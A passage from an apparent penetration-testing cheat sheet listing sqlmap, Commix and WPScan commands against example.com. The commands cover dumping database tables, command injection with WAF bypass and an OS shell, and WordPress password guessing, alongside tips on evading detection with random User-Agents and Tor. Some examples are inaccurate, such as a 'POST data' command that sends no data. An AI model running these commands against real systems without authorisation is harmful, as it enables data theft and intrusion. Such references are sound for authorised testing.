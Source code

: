     ```sh
    sqlmap -u "http://example.com/index.php?id=1" -D database_name -T table_name -C column_name --dump
    ```
7. Automate Entire Process:
    ```sh
    sqlmap -u "http://example.com/index.php?id=1" --batch --dump
    ```

**Useful Options:**
- `--level=5`: Increases the level of tests (more intensive scanning).
- `--risk=3`: Sets the risk level (3 is the highest).
- `--random-agent`: Uses a random User-Agent for requests to evade detection.
- `--tor`: Uses Tor for anonymizing your connection.

## 6. Commix: Automated Command Injection Tool

Commix automates the detection and exploitation of Command Injection vulnerabilities.

**Usage Examples:**
```sh
commix --url="http://example.com/page.php?id=1" [options]
```
Using POST Data:
```sh
commix --url="http://example.com/page.php?id=1"
```
Test All Parameters for Injection:
```sh
commix --url="http://example.com/page.php?id=1&name=test" --all
```
Enable Bypass Techniques (WAF Bypass):
```sh
commix --url="http://example.com/page.php?id=1" --tamper
```
Establish Reverse Shell (if vulnerable):
```sh
commix --url="http://example.com/page.php?id=1" --os-shell
```

## 7. WPScan: WordPress Vulnerability Scanner

WPScan is used to find vulnerabilities in WordPress installations.

**Basic Syntax:**
```sh
wpscan --url [target_url] [options]
```

**Usage Examples:**
```sh
wpscan --url http://example.com
wpscan --url http://example.com --enumerate p
wpscan --url http://example.com --enumerate u
wpscan --url http://example.com --passwords passwords.txt --usernames admin
wpscan --url http://example.com --api-token YOUR_API_KEY
wpscan --url http://example.com -o results.txt
```
